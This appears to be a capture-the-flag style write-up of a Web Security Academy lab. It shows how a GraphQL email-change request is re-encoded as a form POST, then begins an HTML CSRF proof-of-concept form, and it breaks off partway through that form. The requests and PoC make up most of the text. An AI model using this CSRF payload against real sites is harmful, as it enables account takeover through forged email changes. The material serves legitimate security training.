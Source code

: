 here is the action email change request:
```http
POST /graphql/v1 HTTP/2
Host: 0a6600f803cc4f11817bf7ab00470033.web-security-academy.net
Cookie: session=jyCOhsWjUXLTOb3duN0YcXHuvD04sdIx; session=jyCOhsWjUXLTOb3duN0YcXHuvD04sdIx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a6600f803cc4f11817bf7ab00470033.web-security-academy.net/my-account
Content-Type: application/x-www-form-urlencoded
Content-Length: 231
Origin: https://0a6600f803cc4f11817bf7ab00470033.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

{"query":"\n    mutation changeEmail($input: ChangeEmailInput!) {\n        changeEmail(input: $input) {\n            email\n        }\n    }\n","operationName":"changeEmail","variables":{"input":{"email":"kitij98496@acentni.com"}}}
```


We change it to :

```http
POST /graphql/v1 HTTP/2
Host: 0a6600f803cc4f11817bf7ab00470033.web-security-academy.net
Cookie: session=jyCOhsWjUXLTOb3duN0YcXHuvD04sdIx; session=jyCOhsWjUXLTOb3duN0YcXHuvD04sdIx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a6600f803cc4f11817bf7ab00470033.web-security-academy.net/my-account
Content-Type: application/x-www-form-urlencoded
Content-Length: 276
Origin: https://0a6600f803cc4f11817bf7ab00470033.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

    query=%0A++++mutation+changeEmail%28%24input%3A+ChangeEmailInput%21%29+%7B%0A++++++++changeEmail%28input%3A+%24input%29+%7B%0A++++++++++++email%0A++++++++%7D%0A++++%7D%0A&operationName=changeEmail&variables=%7B%22input%22%3A%7B%22email%22%3A%22hacker%40hacker.com%22%7D%7D
```


csrf POC will be :


```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>CSRF PoC</title>
</head>
<body>
    <h1>CSRF PoC</h1>
    <form id="csrf-form" method="POST" action="https://0a6600f803cc4f11817bf7ab00470033.web-security-academy.net/graphql/v1">
        <input type="hidden" name="query" value="mutation changeEmail($input: ChangeEmailInput!) { changeEmail(input: $input) { email } }" />
```